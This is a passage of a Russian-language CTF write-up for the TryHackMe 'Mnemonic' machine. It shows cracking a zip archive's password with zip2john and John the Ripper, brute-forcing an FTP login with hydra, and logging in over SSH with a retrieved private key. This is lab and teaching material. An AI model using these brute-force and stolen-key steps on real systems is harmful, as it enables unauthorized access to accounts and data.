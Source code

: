 Мы обнаружили архив **backups.zip**. Скачаем его и посмотри содержимое.

Попробовав открыть архив, нас просят ввести пароль. Попробуем сбрутить его.
```
/usr/sbin/zip2john backups.zip > hash

john hash --wordlist=/usr/share/wordlists/rockyou.txt > hash_cracked
```

Вводим пароль и открываем архив. Получаем файл note.txt.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mnemonic/4.png)

<a name="hydra"></a>

Теперь мы имеем имя пользователя для ftp. С помощью hydra сбрутим пароль для ftpuser:
```
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt mnemo.thm ftp
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mnemonic/5.png)

Переходим в директорию data-4 и находим два файла: **id_rsa** и **not.txt**. Скачаем их. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mnemonic/6.png)

Выдаем нужные права для id_rsa:
```
chmod 600 id_rsa
```

Подключаемся к машину по ssh через ключ:
```
ssh -i id_rsa james@mnemo.thm -p 1337
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mnemonic/7.png)
